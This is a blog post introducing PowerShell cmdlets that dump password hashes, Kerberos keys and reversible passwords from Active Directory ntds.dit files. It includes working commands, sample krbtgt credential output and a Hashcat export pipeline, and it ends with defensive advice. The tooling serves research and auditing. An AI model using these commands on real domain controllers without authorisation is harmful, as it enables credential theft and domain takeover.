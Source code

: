 ```yaml
---
ref: dumping-ntds-dit-files
title: 'Dumping the&nbsp;contents of&nbsp;ntds.dit files using PowerShell'
date: 2015-10-20T18:20:18+00:00
layout: post
lang: en
permalink: /en/dumping-ntds-dit-files-using-powershell/
---
```

<p style="text-align: justify;">
  Although&nbsp;there exist several tools for&nbsp;dumping password hashes from&nbsp;the&nbsp;Active Directory database files, including the&nbsp;open-source <a href="http://www.ntdsxtract.com/">NTDSXtract</a> from&nbsp;Csaba Bárta whose great research started it all, they have these limitations:
</p>

<li style="text-align: justify;">
  They do&nbsp;not support the&nbsp;built-in indices, so&nbsp;searching for&nbsp;a&nbsp;single object is&nbsp;slow when&nbsp;dealing with large databases.
</li>
<li style="text-align: justify;">
  Most of&nbsp;the tools are either Linux-only or&nbsp;running them on Windows is&nbsp;not simple enough.
</li>
<li style="text-align: justify;">
  Almost none of&nbsp;these tools can modify the&nbsp;database. And if they do, they do&nbsp;not support transaction logs and&nbsp;are quite cumbersome.
</li>

<p style="text-align: justify;">
  Therefore, I&nbsp;have decided to&nbsp;create <a href="https://www.dsinternals.com/en/list-of-cmdlets-in-the-dsinternals-module/">my own set of&nbsp;PowerShell cmdlets</a> that&nbsp;wouldn&#8217;t have these shortcomings. In&nbsp;the&nbsp;process, I&nbsp;have unintentionally created my own framework that&nbsp;is&nbsp;built on top of&nbsp;Microsoft&#8217;s <a href="https://managedesent.codeplex.com/">ManagedEsent</a> library and&nbsp;hides the&nbsp;complexity of&nbsp;the underlying database. I&nbsp;am planning to&nbsp;release it at GitHub later this year.
</p>

<p style="text-align: justify;">
  One of&nbsp;the cmdlets I&nbsp;have created is&nbsp;<strong>Get-ADDBAccount</strong>, which&nbsp;can be used to&nbsp;extract password hashes, Kerberos keys and&nbsp;even&nbsp;reversibly encrypted passwords from&nbsp;ntds.dit files. Here is&nbsp;an example of&nbsp;its usage:
</p>

<pre class="lang:ps decode:true"># First, we fetch the&nbsp;so-called Boot Key (aka SysKey)
# that&nbsp;is&nbsp;used to&nbsp;encrypt sensitive data in&nbsp;AD:
$key = Get-BootKey -SystemHivePath 'C:\IFM\registry\SYSTEM'

# We then load the&nbsp;DB and&nbsp;decrypt password hashes of&nbsp;all accounts:
Get-ADDBAccount -All -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 

# We can also get a&nbsp;single account by&nbsp;specifying its distinguishedName,
# objectGuid, objectSid or&nbsp;sAMAccountName atribute:
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=Adatum,DC=com' `
        -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 
</pre>

<p style="text-align: justify;">
  The&nbsp;output is&nbsp;identical to&nbsp;what the <a href="https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/">Get-ADReplAccount</a> cmdlet would return:
</p>

<pre class="nums:false lang:default highlight:0 decode:true">DistinguishedName: CN=krbtgt,CN=Users,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-502
Guid: f58947a0-094b-4ae0-9c6a-a435c7d8eddb
SamAccountName: krbtgt
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: False
Deleted: False
LastLogon:
DisplayName:
GivenName:
Surname:
Description: Key Distribution Center Service Account
NTHash: 9b17bcfc3800df21baa6b8a4aeedb4fd
LMHash:
NTHashHistory:
  Hash 01: 9b17bcfc3800df21baa6b8a4aeedb4fd
  Hash 02: c9467e5fae14820500862d85c53747c1
LMHashHistory:
  Hash 01: 1a1d073fde1fca32c24f268fce835de2
  Hash 02: cc8019ecf6fdbcbe06849a9980804e8d
SupplementalCredentials:
  ClearText:
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    OldCredentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    Salt: ADATUM.COMkrbtgt
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 69b11bfec0eec2b278702bc7d9fbfda23e3789128b92c59955e69932a457533b
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: bcfcc7a65379d7914c2c341a74ca0e0e
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 809b0f1697dffe39bb87b2e3d79564dc8ef91b91bad2fc51abc444e42c7e88d9
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: c30fb9e17cd7503f980592a6864c8daa
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OlderCredentials:
    ServiceCredentials:
    Salt: ADATUM.COMkrbtgt
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: eee4408f94b35bb5dc7077747d9762a3
    Hash 02: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 03: 7b0b14e8f5cfa2de25d04d393c649bb7
    Hash 04: eee4408f94b35bb5dc7077747d9762a3
    Hash 05: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 06: cf102efea5397a51edc9202b922682e5
    Hash 07: eee4408f94b35bb5dc7077747d9762a3
    Hash 08: 5737a1de1f94d3f6e0dbbe4e3f173036
    Hash 09: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 10: 973ff6673784ce0faa956d10952b0be0
    Hash 11: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 12: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 13: decbd6b05ac2363ef7c772b42339fdab
    Hash 14: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 15: 71e248eae58d2f1f4b40baf412fde251
    Hash 16: 8f03fa2cf1cdbb300d0e0992fb5265e1
    Hash 17: 5032b686f9b0187115c5b56a4de89d1e
    Hash 18: eb804e4333521ee5e74241db4ecd7e5e
    Hash 19: c86f4816e80f0a590cb03f0b9aa8c04c
    Hash 20: 0e03a76194c6385754a1814384c99798
    Hash 21: db13be8eb45adad0984e5a68ea2dfe23
    Hash 22: db13be8eb45adad0984e5a68ea2dfe23
    Hash 23: 5b6bba9bae24a347108ad7267e1ac287
    Hash 24: e72cad8b0fc837d3e8de4ddc725eb81f
    Hash 25: c19dd7b576c43eec07ba475bd444f579
    Hash 26: 021c07151ece2de494402cf11f62a036
    Hash 27: d657b31bfcacb37443630759cc3a19bf
    Hash 28: 5d49708350e04b16ddc980a0c33c409b
    Hash 29: efe601100b7b4007fe3fa778499d5dda</pre>

<p style="text-align: justify;">
  I&nbsp;have also created several Views that&nbsp;generate output for&nbsp;the&nbsp;most popular password crackers, including <a href="http://hashcat.net/oclhashcat/">Hashcat</a>, <a href="http://www.openwall.com/john/">John the&nbsp;Ripper</a> and&nbsp;<a href="http://ophcrack.sourceforge.net/">Ophcrack</a>:
</p>

<pre class="lang:ps decode:true "># Dump NT hashes in&nbsp;the&nbsp;format understood by&nbsp;Hashcat:
Get-ADDBAccount -All -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key |
   Format-Custom -View HashcatNT |
   Out-File hashes.txt -Encoding ASCII
# Other supported views are HashcatLM, JohnNT, JohnLM and&nbsp;Ophcrack.
</pre>

<p style="text-align: justify;">
  But&nbsp;with the&nbsp;<strong>Golden Ticket</strong> or&nbsp;<strong>Pass-the-Hash</strong> functionality of&nbsp;<a href="http://blog.gentilkiwi.com/mimikatz">mimikatz</a>, an attacker could seize control of&nbsp;the entire Active Directory forest even&nbsp;without cracking those password hashes.
</p>

<p style="text-align: justify;">
  As&nbsp;a&nbsp;countermeasure, it is&nbsp;crucial for&nbsp;companies to <strong>secure physical access</strong> to&nbsp;domain controllers, their backups and&nbsp;their VHD/VHDX/VMDK images in&nbsp;case of&nbsp;virtualized DCs. Turning on BitLocker is&nbsp;not a&nbsp;bad idea either. I&nbsp;really look forward to&nbsp;the new security features planned for&nbsp;Windows Server 2016, including <strong>Shielded VMs</strong> and&nbsp;<strong>Virtual TPMs</strong>.
</p>
